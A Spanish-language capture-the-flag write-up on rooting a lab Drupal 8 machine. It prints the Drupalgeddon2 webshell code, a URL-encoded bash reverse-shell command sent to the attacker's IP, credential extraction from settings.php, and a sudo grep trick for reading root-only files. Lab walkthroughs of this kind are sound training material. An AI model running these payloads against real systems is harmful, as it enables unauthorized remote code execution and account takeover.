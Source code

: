 ## FASE DE ENUMERACIÓN

IP_victima-->172.17.0.2

Vamos a realizar un scaneo de los puertos que tiene abiertos, así como de los servicios y versiones que corren en ellos:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open -oN puertosYservicios 172.17.0.2
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25
|_http-title: 403 Forbidden
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2
```
Solo el puerto 80 con una versión apache con alguna que otra vulnerabilidad, haciendo unas pruebas rápidas creo que están sanitizadas

Accedemos a la página y vemos un error 403... con esto, sin nada en el código fuente vamos a hacer un scan de rutas:

```bash
 gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 'http://172.17.0.2/' -x php,html,txt,
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/drupal               (Status: 301) [Size: 309] [--> http://172.17.0.2/drupal/]
/.                    (Status: 403) [Size: 285]
/.html                (Status: 403) [Size: 290]
/server-status        (Status: 403) [Size: 298]
Progress: 1102730 / 1102735 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos un CMS drupal..interesante, vamos a ver si logramos saber la versión, vamos a mirar las cabeceras:
```bash
 curl -I http://172.17.0.2/drupal/
```
```
X-Generator: Drupal 8 (https://www.drupal.org)
```
Versión 8...y ahora hablo de memoria pereo creo que en la versión 8 ya no se podia saber dentro de ella cual era así pues vamos a buscar un exploit para la versiñon 8

```
https://www.exploit-db.com/exploits/44449
```
```
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution
```
drupalgedón...suena a muerte y destrucción del CMS drupal.

## ACCESO

1- En mi caso abrí nano para crear un archivo con el nombre drupalgeddon2.rb
  ```
  nano drupalgeddon2.rb
  ```
2-Ccopiar e script en la parte superior derecha del mismo donde pone "Copy"

3-pegar en el nano con "ctrl"+shift (la tecla de encima del ctrl izq con una flecha hacia arriba)+V

4-Guardar ctrl+O

5-Salir ctrl+X

es un script en ruby, instalo una gema que pide "require 'highline/import'" por si va a darme problemas:

```
 sudo gem install highline
```

y....a probar el script:

```bash
 ruby drupalgeddon2.rb http://172.17.0.2/drupal/
```

```
[i] Fake PHP shell:   curl 'http://172.17.0.2/drupal/shell.php' -d 'c=hostname'
```

desde aquí podemos ejecutar comando:

```
bf7c7f570628>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

intenté lanzarme una reverseshell y no reconoce algunos caracteres, como no estoy seguro si es porque hay que encodear, se que me ha creado un archivo en la ruta "http://172.17.0.2/drupal/shell.php"
asi que lo voy a leer desde el drupalgedon2:

```
bf7c7f570628>> cat shell.php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```
vale si enviamos una consulta al parametro "c" ejecutamos un comando en el sistema.... jeje

vamos a 
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
cogemos la revershell de nc y la ajustamos un poco quedando asi:

```
bash -c 'bash -i >& /dev/tcp/172.17.0.1/445 0>&1'
```

-172.17.0.1 es mi IP


-445 el puerto que voy a poner a la escucha

me voy a 
```bash
https://www.urlencoder.org/
```
URLencodeo la rev y me queda así:
```
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27%0A
```
nos ponemos a la escucha en el puerto 445:
```
 sudo nc -lvnp 445
```
ahora nos vamos a la página web y vamos a usar el parametro c y nuestra rev:

```bash
http://172.17.0.2/drupal/shell.php?c=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%27%0A
```

y estamos dentro!!!


## FASE ESCALADA DE PRIVILEGIOS

Miramos con "id" si estamos en algún grupo priviegiado:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
nada

un cat al /etc/passwd para ver los usuarios:

 ```bash
cat /etc/passwd | grep sh$
```

```
root:x:0:0:root:/root:/bin/bash
ballenita:x:1000:1000:ballenita,,,:/home/ballenita:/bin/bash
```

con "sudo -l" nos pide contraseña que no tenemos

En drupal suelen guardarse algunas credenciales en un archivo llamado "settings.php"
lo buscamos:

```bash
find / -type f -name settings.php 2>/dev/null
```
```
/var/www/html/drupal/sites/default/settings.php
```

ya lo localizamos, vamos a ver que permisos tiene:
```
ls -la /var/www/html/drupal/sites/default/settings.php
-r--r--r-- 1 www-data www-data 32133 Oct 16  2024 /var/www/html/drupal/sites/default/settings.php
```

podemos leerlo, vamos a hacer una búsqueda rápida:

```bash
cat settings.php | grep -A 10 'databases'
```

en algún sitio podemos leer:

```
* @code
 * $databases['default']['default'] = array (
 *   'database' => 'database_under_beta_testing', // Mensaje del sysadmin, no se usar sql y petó la base de datos jiji xd
 *   'username' => 'ballenita',
 *   'password' => 'ballenitafeliz', //Cuidadito cuidadín pillin
 *   'host' => 'localhost',
 *   'port' => '3306',
 *   'driver' => 'mysql',
 *   'prefix' => '',
 *   'collation' => 'utf8mb4_general_ci',
 * );
 * @endcode
--
$databases = array();
```
```
usuario:ballenita

password:ballenitafeliz
```

Además ese comentario de "Cuidadito cuidadín pillin" me da buena vibra xD

intentamos pivotar al user ballenita:
```
su ballenita
```
metemos el password--->ballenitafeliz

y ya somos ballenita¡¡¡¡


Hacemos un sudo -l:

```bash
sudo -l
```

```
(root) NOPASSWD: /bin/ls, /bin/grep
```


pudiendo listar con ls siendo root todo el sistema:
```bash
sudo -u root /bin/ls /root
```
```
secretitomaximo.txt
```
y con grep, vamos a 
```bash
https://gtfobins.github.io/gtfobins/grep/#sudo
```
```
LFILE=file_to_read
sudo grep '' $LFILE
```

pues al lio, en vez de guardar la ruta al file lo meto directo:

```bash
sudo -u root /bin/grep '' /root/secretitomaximo.txt
```
```
nobodycanfindthispasswordrootrocks
```

veamos si es el password de root:

```bash
su root
```
introducimos el password:nobodycanfindthispasswordrootrocks

Ya somos root¡¡¡¡





